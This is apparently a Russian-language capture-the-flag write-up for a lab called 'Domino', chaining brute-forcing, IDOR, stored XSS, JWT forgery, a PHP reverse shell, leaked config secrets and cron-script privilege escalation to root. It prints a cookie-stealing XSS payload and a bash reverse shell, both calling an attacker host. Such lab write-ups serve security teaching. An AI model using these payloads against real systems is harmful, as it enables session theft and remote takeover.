# Write-up: Domino

Комната о том, как одна уязвимость цепляет другую — хотя на самом деле тут несколько разных уязвимостей, которые складываются в цепочку.

## 1. Разведка

Запускаем `gobuster`:



В `/backup` находим `README.md`:



В `app.js` видим эндпоинт `/api/auth/token` и понимаем, что там JWT:



## 2. Our Team и брутфорс

Смотрим страницу `Our Team`:



Оттуда берём имена сотрудников. Параллельно брутим аккаунт любого из них:



Получаем креды:

```text
robert.wilson:password
```

Заходим:



## 3. IDOR в профиле

`My profile` редиректит на:

```text
http://10.144.165.18/api/users/profile.php?id=4
```



Меняем `id=1`:



Получаем первый флаг.

## 4. Stored XSS и кража сессии админа

На главной можно создать тикет. Пишем в него XSS:

```html
<script>
fetch("http://192.168.137.58:7777/test.php?data=" + btoa(document.cookie));
</script>
```



Как только админ открывает тикет — куки у нас:


С сессией админа получаем ещё один флаг:



## 5. JWT-подмена

Теперь хотим читать файлы через `api/files.php?name=[path]`. Для этого нужен токен из `/api/auth/token.php`:



Добавляем заголовок `Authorization`, но доступа нет. Оказывается, JWT-токен тоже нужно «превратить» в админский — даже если ты уже админ.



Меняем токен через онлайн-редактор и делаем первый тест:



Успешно.

## 6. RCE через PHP-shell

Готовим reverse shell:

```php
<?php
system("bash -c 'bash -i >& /dev/tcp/192.168.137.58/4444 0>&1'");
?>
```

Заливаем через Python-сервер:



Получаем консоль `www-data`:



## 7. Конфиг и devops

Читаем `config.php`:

```php
define('DB_HOST', 'localhost');
define('DB_NAME', 'nexusdb');
define('DB_USER', 'app_user');
define('DB_PASS', 'D3v0ps!2024');
define('JWT_SECRET', 'nexus_jwt_s3cr3t_2024');
define('APP_SECRET', 'nexus_app_k3y_2024');
```

Заходим под `devops` (через SSH удобнее).

## 8. PrivEsc через pspy

В `/opt/tools` лежит `pspy64` — удобно. Запускаем и смотрим процессы, особенно от root:



Видим `admin_bot.py` и `/opt/monitoring/health_report.sh` — два вектора, которые может перезаписать `devops`.

Просто кладём reverse shell в py- или sh-файл:



Получаем root:



## Итоговая схема (Kill Chain)

`gobuster (/backup/README.md)` → `app.js (/api/auth/token)` → `брутфорс (robert.wilson:password)` → `IDOR profile.php?id=1` → `Stored XSS (кража cookie админа)` → `JWT-подмена` → `api/files.php (LFI/RCE)` → `config.php (devops creds)` → `pspy (admin_bot.py / health_report.sh)` → `root`